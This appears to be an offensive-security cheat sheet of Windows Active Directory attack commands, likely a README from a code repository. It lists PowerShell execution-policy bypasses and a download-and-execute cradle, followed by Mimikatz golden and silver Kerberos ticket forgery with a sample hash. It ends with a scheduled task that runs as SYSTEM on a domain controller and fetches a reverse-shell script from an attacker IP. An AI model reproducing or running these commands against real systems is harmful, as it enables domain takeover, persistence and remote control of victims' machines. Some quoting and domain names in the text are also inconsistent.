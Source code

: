 # Commands

# powershell script bypass
Start PowerShell from cmd.exe:

powershell.exe -ep bypass

OR If already running-

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass

Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted

$Env:PSExecutionPolicyPreference = 'Bypass'



# cradle
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

# download
(new-object System.Net.Webclient).DownloadFile("https://raw.githubusercontent.com/conma293/mvp/main/1.ps1", "C:\Windows\Temp\1.ps1")

# Tickets

NTLM == RC4

#Golden

Invoke-Mimikatz -Command '"kerberos::golden 
/User:DonaldDuck /domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /krbtgt:731a061e57100b658bc59d71f5176e93
id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

#Silver
SPNs - https://adsecurity.org/?page_id=183

Invoke-Mimikatz -Command '"kerberos::golden 
/domain:ecorp.local /sid:S-1-5-21-1874506631-3219642033-
538555522 /target:dc01.ecorp.local /service:HOST 
/rc4:731a061e57100b658bc59d71f5176e93 /user:Administrator /ptt"

schtasks /create /S dc01.ecorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "Updater123" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.3.111:8080/Invoke-PowerShellTcp.ps1'')'"

schtasks /Run /S dc01.ecorp.moneycorp.local /TN "Updater123"
